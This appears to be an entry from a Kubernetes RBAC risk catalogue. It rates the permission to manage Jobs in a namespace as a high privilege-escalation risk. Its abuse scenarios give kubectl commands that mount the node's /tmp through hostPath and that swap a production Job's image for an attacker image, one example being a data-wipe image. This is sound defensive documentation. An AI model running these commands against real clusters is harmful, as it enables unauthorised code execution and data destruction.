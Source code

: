 ```yaml
---
id: 1042
title: "Manage Jobs in a namespace (one-off privileged execution)"
description: "Permits creating, updating, or deleting Jobs within a specific namespace. This can be used to run a one-off pod, potentially with privileged settings, leading to code execution and potential privilege escalation within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field                   | Value                                                                                              |
| ----------------------- | -------------------------------------------------------------------------------------------------- |
| ID                      | 1042                                                                                               |
| Name                    | Manage Jobs in a namespace (one-off privileged execution)                                          |
| Risk Category           | Elevation of Privilege                                                                             |
| Risk Level              | {{< risk High >}}                                                                                  |
| Role Type               | Role                                                                                               |
| API Groups              | batch                                                                                              |
| Resources               | jobs                                                                                               |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                           |
| Tags                    | {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Permits creating, updating, or deleting Jobs within a specific namespace. This can be used to run a one-off pod, potentially with privileged settings, leading to code execution and potential privilege escalation within that namespace.

## Abuse Scenarios

1. Create a new Job with a hostPath mount in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: Job
metadata:
  name: hostpath-job
spec:
  template:
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "echo 'Hello from job' >> /host-tmp/job.log"]
        volumeMounts:
        - mountPath: /host-tmp
          name: host-tmp
      volumes:
      - name: host-tmp
        hostPath:
          path: /tmp
      restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing Job's image to a malicious one.

```bash
kubectl patch job <job-name> -n <namespace> --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/image", "value": "attacker/malicious-script"}]'
# Example: kubectl patch job cleanup-old-data -n production --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/image", "value": "attacker/data-wipe"}]'

```

